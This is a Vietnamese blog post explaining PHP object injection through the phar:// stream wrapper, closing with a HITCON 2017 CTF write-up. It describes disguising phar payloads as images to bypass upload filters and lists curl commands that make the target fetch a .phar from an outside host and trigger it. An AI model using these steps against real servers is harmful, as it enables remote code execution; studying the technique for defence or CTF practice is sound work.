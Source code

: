 ```yaml
---
title: "Php Object Injection Without Unserialize"
date: 2018-09-20T09:17:11+07:00
draft: false
author: "Kev"
comments: true
tags: ["PHP", "Serialization"]
Archives: '2018'
autoThumbnailImage: false
thumbnailImagePosition: top
thumbnailImage: ''
coverImage: /images/uploads/phar_background.png
categories:
  - 1day
---
```


# Stream wrapper

Trong php có khái niệm gọi là stream wrapper, nói về các giao thức trong cách xử lý url, được sử dụng cùng với hàm filesystem  như fopen, copy, file_exists, filesize.

| file:// 		| http:// 		| ftp:// | php:// | zlib:// | data:// | glob:// | phar:// |
| ------------- |:-------------:| ------:|:------:|:-------:|:-------:|:-------:|:-------:|

```
A wrapper is additional code which tells the stream how to handle specific protocols/encodings.
```

# Phar 

Những wrapper này đều có thể lợi dụng để khai thác nhiều loại lỗ hổng. `Phar` wrapper là php archive. Dùng để nén tệp và siêu dữ liệu. Phar không thể sử dụng cho truy cập file từ xa.
Cấu trúc của phar gồm: stub, manifest, file content, signature.

{{<figure src="/images/uploads/phar_phar-structure.png">}}

__Stub__

`__HALT_COMPILER()` là hàm dừng thực thi code trong file php.
```
$ php -r "echo 'Test'; __HALT_COMPILER(); echo 'stub';"
> Test
>
```
`Stub` là một đoạn code php đơn giản. Sử dụng `__HALT_COMPILER` mô tả code php, vì không muốn chương trình biên dịch và thực thi đoạn code php phía sau.

__Manifest__

{{<figure src="/images/uploads/phar_manifest.png">}}

Các byte đầu mô tả thông tin của phar gồm các thông tin của file nén bên trong, version, ... Trong đó có đoạn byte gần cuối là định dạng của [serialize php](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/).
Vậy, bản chất trong phar đã có serialize và chắc một điều là sẽ có 1 giai đoạn nào đó phải sử dụng đến unserialize. Đó là lúc giải nén các file bên trong của tệp phar.

__File contents__

Chứa nội dung được nén bên trong

__Signature__

Phần chữ kí dùng để xác minh tính toàn vẹn của tệp phar, chỉ cần thay đổi 1 yếu tố trong tệp thì chữ kí này giúp để xác minh sự thay đổi đó.

{{<figure src="/images/uploads/phar_xxd-file-phar.png">}}

Chúng ta có thể thấy, phần stub ở trên đầu của file (`<?php __HALT_COMPILER(); ?>`), vì phần này mình có thể tự do tùy chỉnh nên giúp cho việc tạo định dạng file fake rất dễ. Tiếp theo là đoạn `O:7:"example":1:{...` là dữ liệu serialize, lợi dụng điểm này mình có thể override dữ liệu tạo ra payload tấn công object injection. `test.txt`  là nội dung file nén bên trong. Cuối cùng, là đoạn signature để xác minh tính toàn vẹn dữ liệu.


# Kịch bản tấn công

Thông thường nhiều trang web có tính năng upload ảnh và cho tự do chèn địa chỉ ảnh. Cách ngăn chặn những lỗi tấn công không biết trước thường mọi lập trình viên chỉ dùng function `file_exists()` để kiểm tra file. Nhưng đây lại là tác nhân gây ra lỗi object injection dùng phar.

 - _Bước 0_: Khởi tạo payload, cần biết trước trên server có những class nào đã được định nghĩa. Điều này về lý thuyết có vẻ khó, nhưng các ứng dụng lớn thông thường sử dụng những class phổ biến, cho nên có thể khảo sát qua nhiều sourcecode của các trang web lớn.
 - _Bước 1_: vì phar không thể tương tác file từ xa, chúng ta cần upload file payload lên server. Có thể dễ dàng qua mặt các filter bằng cách tạo file phar với stub là header file ảnh.
 - _Bước 2_: Cần tùy chỉnh được url trong các function: include(), fopen(), file_get_contents(), file(), ... Url dạng `phar:///usr/share/payload.phar.jpg`

# Capture The Flag ([orange.tw](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017))

__Baby^H Master PHP 2017 | HITCON 2017 Quals__

[source code index.php]({{/resources/php_obj_inj_without_unserialize/index.php}})

```
# Get a cookie
$ curl http://host/ --cookie-jar cookie

# Download .phar file from http://orange.tw/avatar.gif
$ curl -b cookie 'http://host/?m=upload&url=http://orange.tw/'

# Get flag
$ curl -b cookie "http://host/?m=upload&url=phar:///var/www/data/$MD5_IP/&lucky=%00lambda_1"
```
